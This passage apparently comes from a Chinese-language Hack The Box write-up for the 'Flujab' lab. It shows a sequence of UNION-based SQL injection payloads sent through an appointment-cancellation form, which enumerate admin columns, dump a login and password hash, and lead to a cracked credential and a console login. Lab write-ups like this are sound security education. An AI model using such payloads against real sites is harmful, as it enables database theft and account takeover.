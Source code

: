 `nhsnum=NHS-000-000-0000'+UNION+SELECT+1,2,column_name,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='admin'+and+column_name!='id'+and+column_name!='loginname';+--+-&submit=Cancel+Appointment`
第三欄的名稱

![image](https://hackmd.io/_uploads/SkcpGg77A.png)

`nhsnum=NHS-000-000-0000'+UNION+SELECT+1,2,column_name,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='admin'+and+column_name!='id'+and+column_name!='loginname'+and+column_name!='namelc';+--+-&submit=Cancel+Appointment`
第四欄的名稱

![image](https://hackmd.io/_uploads/HJ6zQxXXR.png)

`nhsnum=NHS-000-000-0000'+UNION+SELECT+1,2,column_name,4,5+from+information_schema.columns+where+table_schema=database()+and+table_name='admin'+and+column_name!='id'+and+column_name!='loginname'+and+column_name!='namelc'+and+column_name!='email';+--+-&submit=Cancel+Appointment`
第五欄的名稱

![image](https://hackmd.io/_uploads/BkYKmgX7R.png)

我覺得這樣的資訊應該夠了
但是沒有password
我往下leak也沒看到(下一個是creat)

`nhsnum=NHS-000-000-0000'+UNION+SELECT+1,2,CONCAT(loginname,':',namelc,':',password,':',email,':',access),4,5+FROM+admin;+--+-&submit=Cancel+Appointment&submit=Cancel+Appointment`
所以我自己加了
it work

> sysadm:administrator:a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602:syadmin@flujab.htb:sysadmin-console-01.flujab.htb

![image](https://hackmd.io/_uploads/SkXqExQmC.png)

### get in shell

拿去解密後
sysadm:th3doct0r

![image](https://hackmd.io/_uploads/HkrbBx7m0.png)

我將sysadmin-console-01.flujab.htb加到hosts裡

?
![image](https://hackmd.io/_uploads/BynVIxmXA.png)

看來要8080才可以(具參考過的一些資料，一定要加進白名單才可以造訪這個網頁)
![image](https://hackmd.io/_uploads/ry2LUx7Q0.png)

拿剛剛獲得的帳密登進去
![image](https://hackmd.io/_uploads/ryhaPg7QC.png)
